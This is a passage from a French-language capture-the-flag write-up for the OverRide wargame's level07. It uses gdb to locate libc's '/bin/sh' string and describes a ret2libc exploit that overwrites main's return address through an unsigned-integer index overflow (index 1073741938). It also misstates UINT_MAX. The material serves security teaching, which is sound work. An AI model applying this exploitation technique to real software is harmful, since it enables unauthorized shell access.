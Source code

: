On obtien donc ==0xf7e6aed0==.

Pour l'adresse de __"/bin/sh"__, il faut aller la chercher dans les protocol dans __gdb__.

```bash
(gdb) info proc map
process 2525
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
	 0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
	 0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fd8000 0xf7fdb000     0x3000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
```

On obtient donc ==0xf7f897ec==.

### Mise en execution:

Avec tout ca, on vas override l'adresse du __return__ du main situer a l'index __114__ du tableau pour excuter un __system("/bin/sh")__.

cependant il nous reste un probleme, 114 et un multiple de 3 du coup nous ne pouvont pas passer cette index a __store_number__.

pour bypass ca pour la overflow l'index avec un nombre tres grand pour qu'il revienne sur __114__.

On sait qu'__index__ et un __unsigned int__ on connait donc UINT_MAX = 4294967296.

On divise ce nombre / 4 et on lui ajoute 114 et INCROYABLE ca fonctionne.

> Index: 1073741938

Il nous reste plus qu'a override et convertire l'adresse de __system__ et de __"bin/sh"__ en decimal.

On decale l'index de __"/bin/sh"__ de deux (116) parce qu'une adresse fait (8 octets) et le tableau stock des __int__ soit 4 octets.

```bash
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
```